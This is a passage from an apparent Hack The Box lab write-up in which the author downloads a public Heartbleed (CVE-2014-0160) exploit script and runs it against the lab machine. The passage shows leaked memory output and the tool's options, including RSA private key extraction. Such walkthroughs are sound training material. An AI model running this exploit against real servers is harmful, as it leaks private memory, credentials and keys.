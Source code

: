 Next, I search for `python heartbleed GitHub` and find an [exploitation script](https://gist.github.com/eelsivart/10174134) as the very first result. I read the script and it looks like it'll job, so I download it to my kali machine.

I run the script with the defaults.
```bash
root@vmw-kali:~/htb/valantine# python heartbleed.py 10.10.10.79
                                                            
defribulator v1.16                        
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.10.10.79:443, 1 times
Sending Client Hello for TLSv1.0 
Received Server Hello for TLSv1.0                                        
           
WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################
                                                                         
.@....SC[...r....+..H...9...
....w.3....f...                                                  
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........                                                              
...................................#q
```
Nothing interesting there. I run it a few more times with similar results. 

The way this script works is that it is returning a maximum of 4000 bytes of memory directly adjacent to the SSL request. The problem is, that part of the memory doesn't *always* hold useful information. If I run the script a few more times consecutively, hopefully there will be some interesting data within bytes returned.

I look at the help for the script and notice it has a loop (`-n`) parameter. 
```bash
root@vmw-kali:~/htb/valantine# python heartbleed.py -h
Usage: heartbleed.py server [options]

Test and exploit TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  TCP port to test (default: 443)
  -n NUM, --num=NUM     Number of times to connect/loop (default: 1)
  -s, --starttls        Issue STARTTLS command for SMTP/POP/IMAP/FTP/etc...
  -f FILEIN, --filein=FILEIN
                        Specify input file, line delimited, IPs or hostnames
                        or IP:port or hostname:port
  -v, --verbose         Enable verbose output
  -x, --hexdump         Enable hex output
  -r RAWOUTFILE, --rawoutfile=RAWOUTFILE
                        Dump the raw memory contents to a file
  -a ASCIIOUTFILE, --asciioutfile=ASCIIOUTFILE
                        Dump the ascii contents to a file
  -d, --donotdisplay    Do not display returned data on screen
  -e, --extractkey      Attempt to extract RSA Private Key, will exit when
                        found. Choosing this enables -d, do not display
                        returned data on screen.
```
